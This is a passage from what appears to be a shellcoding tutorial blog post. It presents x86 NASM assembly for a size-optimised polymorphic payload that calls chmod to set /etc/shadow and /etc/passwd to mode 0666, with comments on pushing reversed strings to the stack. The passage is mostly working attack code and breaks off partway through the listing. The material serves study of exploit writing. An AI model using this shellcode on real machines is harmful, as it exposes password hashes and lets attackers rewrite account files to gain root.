   // EBX is equal to ESP, so it's just a random exit code
  exit(EBX);
}
</code></pre><p>It changes the permissions on the files <code>/etc/passwd</code> and <code>/etc/shadow</code> to <code>0666</code>. After that, it uses the <code>exit</code> syscall to terminate its own execution.</p><h2 id="polymorphic-version">Polymorphic version</h2><h3 id="focus-on-size">Focus on size</h3><p>Follows the smallest version I managed to write:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear ECX, EAX, EDX
    xor ecx, ecx
    mul ecx

    ; store "/etc" into ESI
    ;   this allows me to reuse this value for the second call to chmod
    mov esi, 0x6374652f

    ; add a NULL byte (in this case a NULL DWORD) at the end of the string
    ;   pushed to the stack
    push eax

    ; store the string "/etc//shadow" on the stack
    push dword 0x776f6461
    push dword 0x68732f2f
    push esi
</code></pre><figcaption>Remember that when you push a string to the stack, the bytes must be <strong>reversed</strong>, as <strong>the stack grows downward</strong></figcaption></figure><pre><code class="language-nasm">    ; 1st argument of chmod(): const char *pathname
    ; store into EBX the pointer to "/etc//shadow"
    mov ebx,esp

    ; set EAX to 0x0000000f -&gt; chmod() syscall
    add al, 0xf

    ; 2nd argument of chmod(): mode_t mode
    ; in this case ECX is set to the binary value 110110110
    mov cx,0x1b6

    ; call chmod()
    int 0x80

    ; set EAX to 0 and push it to the stack;
    ; like before, it acts as the string terminator
    mov eax, edx
    push eax

    ; push "/etc//passwd" to the stack
    push dword 0x64777373

    ; also set EAX to 0x0000000f -&gt; chmod() syscall
    add al, 0xf
    push dword 0x61702f2f
